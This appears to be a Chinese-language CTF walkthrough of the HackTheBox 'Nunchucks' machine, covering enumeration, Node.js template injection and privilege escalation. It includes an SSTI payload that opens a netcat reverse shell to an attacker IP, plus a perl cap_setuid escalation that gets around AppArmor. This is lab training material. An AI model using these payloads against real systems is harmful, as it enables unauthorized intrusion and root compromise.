


HackTheBox Nunchucks Walkthrough
Enumeration
Nmap
ports=$(nmap -p- --min-rate=1000 -T4 10.10.11.222 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
# $ports=22,80
nmap -sC -sV -p$ports 10.10.11.122
# Nmap 7.92 scan initiated Wed Feb 9 22:22:20 2022 as: nmap -sC -sV -p22,80,443 -v -oN nmaplog.txt 10.10.11.122
Nmap scan report for 10.10.11.122
Host is up (0.32s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
| 256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_ 256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp open http nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open ssl/http nginx 1.18.0 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 4BD6ED13BE03ECBBD7F9FA7BAA036F95
| http-methods:
|_ Supported Methods: GET HEAD POST OPTIONS
|_http-title: Nunchucks - Landing Page
| tls-nextprotoneg:
|_ http/1.1
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Issuer: commonName=Nunchucks-CA/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-30T15:42:24
| Not valid after: 2031-08-28T15:42:24
| MD5: 57fc 410d e809 1ce6 82f9 7bee 4f39 6fe4
|_SHA-1: 518c 0fd1 6903 75c0 f26b a6cb e37d 53b8 a3ff 858b
| tls-alpn:
|_ http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done 1 IP address (1 host up) scanned in 34.33 seconds
Web Application
修改hosts文件
sudo echo "10.10.11.122 nunchucks.htb" >> /etc/hosts
访问网站，自动转为https协议，扫描目录
dirsearch -u 'https://nunchucks.htb'
[23:09:36] Starting:
[23:09:42] 400 - 166B - /.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[23:10:37] 301 - 179B - /assets -> /assets/
[23:10:44] 400 - 166B - /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
[23:11:16] 200 - 9KB - /login
[23:11:17] 200 - 9KB - /login/
[23:11:37] 200 - 19KB - /privacy
[23:11:42] 400 - 1KB - /servlet/%C0%AE%C0%AE%C0%AF
[23:11:45] 200 - 9KB - /signup
[23:11:53] 200 - 17KB - /terms
Task Completed
发现注册和登录页面，访问注册页面进行注册


注册、登录均关闭，继续爆破子域名
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hw 2271 -H "Host: FUZZ.nunchucks.htb" -u "https://nunchucks.htb"
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer *
********************************************************
Target: https://nunchucks.htb/
Total requests: 4997
=====================================================================
ID Response Lines Word Chars Payload
=====================================================================
000000081: 200 101 L 259 W 4028 Ch "store"
hosts文件加入store.nunchucks.htb后访问页面

Vuln
SSTI
输入邮箱地址，通过burp抓包修改参数可以发现SSTI漏洞

模板注入反弹shell
# payload:{{range.constructor(\"return global.process.mainModule.require('child_process').execSync('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.4 4444 >/tmp/f')\")()}}
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.122] 49368
sh: 0: can't access tty; job control turned off
$ pwd
/var/www/store.nunchucks
$ cd ~
$ ls
user.txt
# 获取sshshell
$ mkdir .ssh
$ cd .ssh
$ echo id_rsa.pub > authorized_keys
ssh david@10.10.11.122
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-86-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/advantage
System information as of Fri 11 Feb 01:11:31 UTC 2022
System load: 0.55
Usage of /: 48.8% of 6.82GB
Memory usage: 45%
Swap usage: 0%
Processes: 270
Users logged in: 0
IPv4 address for ens160: 10.10.11.122
IPv6 address for ens160: dead:beef::250:56ff:feb9:19d7
10 updates can be applied immediately.
To see these additional updates run: apt list --upgradable
The list of available updates is more than a week old.
To check for new updates run: sudo apt update
david@nunchucks:/tmp$ id
uid=1000(david) gid=1000(david) groups=1000(david)
Privilege Escalation
查看可执行文件
david@nunchucks:/tmp$ find / -type f -perm -u=s 2>/dev/null
/usr/bin/fusermount
/usr/bin/umount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/at
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/su
/usr/bin/sudo
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
同时查看网站配置文件发现mysql用户名密码，经测试均无法提权
最后经网上搜索发现通过getcap查看文件capabilities
david@nunchucks:/tmp$ getcap -r / 2>/dev/null
/usr/bin/perl = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
发现perl有cap_setuid+ep属性，可以通过perl提权 参考https://gtfobins.github.io/gtfobins/perl/#capabilities
# 尝试提权
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
david@nunchucks:/tmp$ id
uid=1000(david) gid=1000(david) groups=1000(david)
# 未成功 - -
# 使用其他命令
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "id";'
uid=0(root) gid=1000(david) groups=1000(david)
david@nunchucks:/tmp$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "cat /root/root.txt";'
cat: /root/root.txt: Permission denied # 无权限，什么鬼？
继续搜索…发现使用了AppArmor技术
AppArmor Introduction AppArmor is a Mandatory Access Control (MAC) system which is a kernel (LSM) enhancement to confine programs to a limited set of resources. AppArmor’s security model is to bind access control attributes to programs rather than to users. AppArmor confinement is provided via profiles loaded into the kernel, typically on boot. AppArmor profiles can be in one of two modes: enforcement and complain. Profiles loaded in enforcement mode will result in enforcement of the policy defined in the profile as well as reporting policy violation attempts (either via syslog or auditd). Profiles in complain mode will not enforce policy but instead report policy violation attempts. AppArmor differs from some other MAC systems on Linux: it is path-based, it allows mixing of enforcement and complain mode profiles, it uses include files to ease development, and it has a far lower barrier to entry than other popular MAC systems. AppArmor is an established technology first seen in Immunix and later integrated into Ubuntu, Novell/SUSE, and Mandriva. Core AppArmor functionality is in the mainline Linux kernel from 2.6.36 onwards; work is ongoing by AppArmor, Ubuntu and other developers to merge additional AppArmor functionality into the mainline kernel.
查看/etc/apparmor.d/usr.bin.perl
# Last Modified: Tue Aug 31 18:25:30 2021
#include <tunables/global>
/usr/bin/perl {
#include <abstractions/base>
#include <abstractions/nameservice>
#include <abstractions/perl>
capability setuid,
deny owner /etc/nsswitch.conf r,
deny /root/* rwx,
deny /etc/shadow rwx,
/usr/bin/id mrix,
/usr/bin/ls mrix,
/usr/bin/cat mrix,
/usr/bin/whoami mrix,
/opt/backup.pl mrix,
owner /home/ r,
owner /home/david/ r,
}
无/root的rwx权限，但是有个/opt/backup.pl脚本，查看脚本内容
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);
my $tmpdir = "/tmp";
my $backup_main = '/var/www';
my $now = strftime("%Y-%m-%d-%s", localtime);
my $tmpbdir = "$tmpdir/backup_$now";
sub printlog
{
print "[", strftime("%D %T", localtime), "] $_[0]\n";
}
sub archive
{
printlog "Archiving...";
system("/usr/bin/tar -zcf $tmpbdir/backup_$now.tar $backup_main/* 2>/dev/null");
printlog "Backup complete in $tmpbdir/backup_$now.tar";
}
if ($> != 0) {
die "You must run this script as root.\n";
}
printlog "Backup starts.";
mkdir($tmpbdir);
&archive;
printlog "Moving $tmpbdir/backup_$now to /opt/web_backups";
system("/usr/bin/mv $tmpbdir/backup_$now.tar /opt/web_backups/");
printlog "Removing temporary directory";
rmdir($tmpbdir);
printlog "Completed";
脚本通过设置setuid以root用户运行，这样可以按照同样方法写提权脚本
#/tmp/exp.pl
#!/usr/bin/perl
use strict;
use POSIX qw(strftime);
use DBI;
use POSIX qw(setuid);
POSIX::setuid(0);
system("/usr/bin/bash");
david@nunchucks:/tmp$ chmod +x exp.pl
david@nunchucks:/tmp$ ./exp.pl
root@nunchucks:/tmp# id
uid=0(root) gid=1000(david) groups=1000(david)